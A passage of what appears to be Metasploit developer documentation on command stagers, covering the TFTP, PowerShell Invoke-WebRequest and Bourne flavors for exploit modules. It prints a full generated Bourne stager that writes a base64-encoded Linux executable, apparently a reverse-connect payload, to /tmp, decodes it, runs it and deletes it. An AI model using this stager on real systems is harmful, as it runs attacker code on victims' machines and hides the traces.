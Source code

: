 ```ruby
execute_cmdstager(flavor: :tftp)
```

You will also need to remember to set the platform in the metadata:

```ruby
'Platform' => 'win'
```


## PowerShell Invoke-WebRequest - Windows Only

To use the PowerShell Invoke-WebRequest stager, either specify your CmdStagerFlavor in the metadata:

```ruby
'CmdStagerFlavor' => [ 'psh_invokewebrequest' ]
```

Or set the :psh_invokewebrequest key to execute_cmdstager:

```ruby
execute_cmdstager(flavor: :psh_invokewebrequest )
```

## Bourne Command Stager - Multi Platform

**Linemax** minimum: 373

The [Bourne](https://github.com/rapid7/rex-exploitation/blob/master/lib/rex/exploitation/cmdstager/bourne.rb) command stager supports multiple platforms except for Windows. Just like many other stagers, it writes a base64 encoded payload to disk, but then it tries to decode it using four different commands: base64, openssl, python, and perl.  This is very useful if the target's OS is unpredictable. You can see the way it attempts to use multiple decoding techniques by setting `verbose` to `true` and launching an exploit that has `bourne` as a supported command stager flavor and selecting it as the flavor:
```
[*] Generated command stager: ["echo -n f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAAeABAAAAAAABAAAAAAAAAAAAAAAAAAAAAAAAAAEAAOAABAAAA
AAAAAAEAAAAHAAAAAAAAAAAAAAAAAEAAAAAAAAAAQAAAAAAA+gAAAAAAAAB8AQAAAAAAAAAQAAAAAAAAMf9qCViZthBIidZNMclqIkFaagdaDwVIhcB4UWoK
QVlQailYmWoCX2oBXg8FSIXAeDtIl0i5AgARXAoFh8lRSInmahBaaipYDwVZSIXAeSVJ/8l0GFdqI1hqAGoFSInnSDH2DwVZWV9IhcB5x2o8WGoBXw8FXmp+
Wg8FSIXAeO3/5g==>>'/tmp/XtMnQ.b64' ; ((which base64 >&2 && base64 -d -) || (which base64 >&2 && base64 --decode -) || (w
hich openssl >&2 && openssl enc -d -A -base64 -in /dev/stdin) || (which python >&2 && python -c 'import sys, base64; pri
nt base64.standard_b64decode(sys.stdin.read());') || (which perl >&2 && perl -MMIME::Base64 -ne 'print decode_base64($_)
')) 2> /dev/null > '/tmp/IPUov' < '/tmp/XtMnQ.b64' ; chmod +x '/tmp/IPUov' ; '/tmp/IPUov' ; rm -f '/tmp/IPUov' ; rm -f '
/tmp/XtMnQ.b64'"]
```
To use the Bourne stager, either specify your CmdStagerFlavor in the metadata:

